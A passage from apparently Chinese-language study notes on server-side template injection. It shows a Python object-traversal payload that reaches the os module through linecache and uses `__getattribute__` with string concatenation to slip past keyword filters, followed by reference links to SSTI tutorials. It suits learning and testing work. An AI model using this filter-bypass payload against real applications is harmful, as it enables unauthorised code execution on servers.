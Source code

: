 
当不能通过
```
 [].class.base.subclasses([60].init.func_globals[‘linecache’].dict.values()[12]直接加载 os 模块
```
这时候可以使用getattribute+ 字符串拼接 / base64 绕过 例如:

```bash
[].__class__.__base__.__subclasses__()[60].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__.values()[12]

等价于：
[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]

```

---
## 八：参考

[模板注入总结](https://blog.csdn.net/qq_44657899/article/details/104307948)

[从零开始的 ssti 学习](https://www.cnblogs.com/cioi/p/12308518.html#a1)

